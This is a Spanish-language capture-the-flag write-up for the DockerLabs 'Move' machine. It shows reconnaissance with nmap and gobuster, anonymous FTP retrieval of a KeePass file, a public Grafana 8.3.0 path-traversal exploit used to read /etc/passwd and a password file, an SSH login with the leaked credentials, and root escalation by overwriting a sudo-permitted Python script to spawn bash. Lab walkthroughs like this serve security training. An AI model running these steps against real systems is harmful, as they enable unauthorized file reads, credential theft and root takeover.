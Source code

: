 # Máquina Move

Dificultad -> Easy

Enlace a la máquina -> [Dockerlabs](https://dockerlabs.es/)

## Reconocimiento

Comenzamos realizando un escaneo general con **nmap** sobre la IP de la máquina víctima para ver que puertos tiene abiertos.

```shell
nmap -p- --open -sT --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts
________________________________________________
PORT     STATE SERVICE REASON
21/tcp   open  ftp     syn-ack
22/tcp   open  ssh     syn-ack
80/tcp   open  http    syn-ack
3000/tcp open  ppp     syn-ack
```

Lanzamos un conjunto de scripts predeterminado con **nmap** para que nos reporte más información relacionada a los puertos descubiertos en el anterior escaneo.

```shell
nmap -sCV -p21,22,80,3000 172.17.0.2 -oN targeted
________________________________________________
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:172.17.0.1
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxrwxrwx    1 0        0              26 Mar 29 09:28 mantenimiento [NSE: writeable]
22/tcp   open  ssh     OpenSSH 9.6p1 Debian 4 (protocol 2.0)
| ssh-hostkey: 
|   256 770b3436870d386458c06f4ecd7a3a99 (ECDSA)
|_  256 1ec6b291563250a50345f3f732ca7bd6 (ED25519)
80/tcp   open  http    Apache httpd 2.4.58 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.58 (Debian)
3000/tcp open  ppp?
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 302 Found
```

El usuario **anonymous** está disponible en el servicio **ftp**, le echamos un vistazo.

```shell
ftp 172.17.0.2
-> anonymous
```

Vemos un directorio y dentro un archivo, asi que lo descargamos:

```shell
cd mantenimiento
get database.kdbx
```

Lo tratamos de abrir con **keepass2** pero tiene contraseña, por lo que trataremos de crackearla con **john**:

```shell
keepass2john database.kdbx
---------------------------------
! database.kdbx : File version '40000' is currently not supported!
```

Nos da error por la versión del archivo así que de momento pasaremos a inspeccionar otras vías.

Inspeccionamos la web del puerto 80, y encontramos la página por defecto de Apache. Aplicamos **Fuzzing** sobre ella:

```shell
gobuster dir -u http://172.17.0.2/ -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -x txt,php,html
```

Accedemos al archivo **maintenance.html** que hemos encontrado:

![Pasted image 20240428003510](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/f8a13e47-b465-4d7d-b4fd-f7012ba93901)

Le echamos un vistazo a la web que corre por el puerto 3000:

![Pasted image 20240428003758](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/1408ccac-184b-4aa6-bd31-6d885360a9cd)

```shell
whatweb http://172.17.0.2:3000/
------------------------------------------------------------------------------
http://172.17.0.2:3000/login [200 OK] Country[RESERVED][ZZ], Grafana[8.3.0], HTML5, IP[172.17.0.2], Script, Title[Grafana], UncommonHeaders[x-content-type-options], X-Frame-Options[deny], X-UA-Compatible[IE=edge], X-XSS-Protection[1; mode=block]
```

***

## Explotación

Vemos que está utilizando **Grafana\[8.3.0]**, con su versión. Podemos buscar algún exploit que podamos utilizar:

```shell
searchsploit Grafana
-----------------------------------------------
Grafana 7.0.1 - Denial of Service (PoC)
Grafana 8.3.0 - Directory Traversal and Arbitrary File Read                               multiple/webapps/50581.py
```

Vemos que hay uno justo para la versión correspondiente. Nos lo descargamos:

```shell
searchsploit -m multiple/webapps/50581.py
python3 50581.py -H http://172.17.0.2:3000
-> /etc/passwd
----------------------------------------------
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin
systemd-timesync:x:997:997:systemd Time Synchronization:/:/usr/sbin/nologin
messagebus:x:100:101::/nonexistent:/usr/sbin/nologin
ftp:x:101:104:ftp daemon,,,:/srv/ftp:/usr/sbin/nologin
sshd:x:102:65534::/run/sshd:/usr/sbin/nologin
grafana:x:103:105::/usr/share/grafana:/bin/false
freddy:x:1000:1000::/home/freddy:/bin/bash
```

Vemos un información interesante como un usuario **freddy**. Leemos también el archivo que ponía en la web:

```shell
python3 50581.py -H http://172.17.0.2:3000
-> /tmp/pass.txt
-----------------------
t9sH76gpQ82UFeZ3GXZS
```

Usamos el usuario freddy y la contraseña obtenida para acceder por **ssh** -> **freddy:t9sH76gpQ82UFeZ3GXZS**

```ssh
ssh freddy@172.17.0.2
```

Estamos dentro !

***

## Escalada de privilegios

Ejecutamos **sudo -l**, para ver si podemos ejecutar algo como root.

```shell
sudo -l
-----------------------
User freddy may run the following commands on 19cbc2280d8b:
    (ALL) NOPASSWD: /usr/bin/python3 /opt/maintenance.py
```

Vemos que **/opt/maintenance.py** pertenece a freddy de forma que podemos cambiarlo y escribir en él. El nuevo contenido del script **maintenance.py** será:

```python
import os
os.system("/usr/bin/python3 -c 'import os; os.system(\"/bin/bash\")'")
```

Lo ejecutamos:

```shell
sudo /usr/bin/python3 /opt/maintenance.py
```

```shell
whoami
----------------
root
```

Hemos conseguido el nivel de privilegios máximos en la máquina !
